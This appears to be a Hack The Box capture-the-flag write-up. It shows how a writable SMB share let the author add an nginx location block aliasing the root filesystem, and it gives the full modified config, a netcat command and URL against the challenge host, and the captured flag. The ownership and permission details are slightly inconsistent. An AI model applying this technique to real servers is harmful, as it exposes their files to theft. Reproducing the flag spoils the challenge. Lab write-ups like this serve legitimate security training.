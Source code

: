 # Secure Code: **StoneForges_Domain**

## Overview

In this challenge, we exploited a misconfigured Nginx setup on a Docker container running a Flask application. Although direct path traversal was blocked, we had write access via an SMB share, which allowed us to modify the Nginx configuration. By adding a new location block, we exposed the container’s root filesystem, letting us access the flag file.

## Steps

### 1. Accessing the SMB Share

We mounted the SMB share that contained the configuration files. The share exposed the following directory structure:

```
config/
├── nginx.conf
├── postgresql.conf
└── supervisord.conf
```

Even though the files were owned by `root` with mode `755`, only `nginx.conf` was editable.

### 2. Modifying `nginx.conf`

We edited the `nginx.conf` file to add a new location block that serves files from the root filesystem. The modified configuration is shown below:

```nginx
user www-data;
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
    worker_connections 1024;
}

http {
    server_tokens off;
    log_format docker '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log /dev/stdout docker;

    include /etc/nginx/mime.types;

    server {
        listen 3000;
        server_name _;

        charset utf-8;
        client_max_body_size 5M;

        location /static {
            alias /www/application/app/static/;
        }

        # New location block to expose the root filesystem.
        location /flag {
            alias /;
        }

        location / {
            proxy_pass http://127.0.0.1:8000;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }
    }
}
```

### 3. Triggering a Restart

After saving the modified `nginx.conf` via the SMB share, we triggered an Nginx restart. For example, by connecting to the appropriate restart endpoint:

```bash
nc 83.136.251.145 34603
```

This command caused Nginx to reload the new configuration.

### 4. Retrieving the Flag

With the new configuration in place, the flag file (placed at `/flag.txt` by the Dockerfile) became accessible via the URL:

```
http://83.136.251.145:59733/flag/flag.txt
```

Visiting this URL returned the flag:

```
HTB{W4LK1N9_7H3_570N3F0R93_P47H_45_R3QU1R3D_e300e8639b5e8cfcacd903a2f85bc286}
```

## Conclusion

By leveraging our write access to modify `nginx.conf`, we bypassed the restrictions imposed by the static file serving and path traversal protections. This allowed us to expose the root filesystem and retrieve the flag.

## Write-Up Credit: [binchickens69](https://ctf.hackthebox.com/user/profile/605069)